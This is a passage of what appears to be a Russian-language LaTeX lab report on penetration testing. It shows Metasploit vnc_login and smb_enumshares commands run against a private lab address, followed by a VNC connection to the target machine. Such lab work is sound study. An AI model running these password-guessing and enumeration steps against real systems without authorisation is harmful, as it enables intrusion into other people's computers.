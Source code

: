 \documentclass[10pt,a4paper]{article}
\begin{document}
Настраиваем и запускаем эксплоит
\begin{verbatim}
use auxiliary/scanner/vnc/vnc_login
set RHOSTS 192.168.100.8
exploit
\end{verbatim}

\begin{figure}[h!]
\centering
\includegraphics[width=\textwidth]{vnc_login}
\caption{Результат работы vnc\_login}
\end{figure}

Теперь, зная пароль, с помощью TightVNC подключаемся к атакуемому компьютеру.
\begin{figure}[h!]
\centering
\includegraphics[width=\textwidth]{vnc_connected}
\caption{Подключение к атакуемому компьютеру}
\end{figure}

\newpage
\subsection{Получение списка директорий в общем доступе по протоколу SMB}
Получить список директорий в общем доступе по протоколу SMB можно с помощью smb\_enumshares.\\
Настраиваем и запускаем эксплоит
\begin{verbatim}
use auxiliary/scanner/smb/smb_enumshares
set RHOSTS 192.168.100.8
set THREADS 2
run
\end{verbatim}
\end{document}
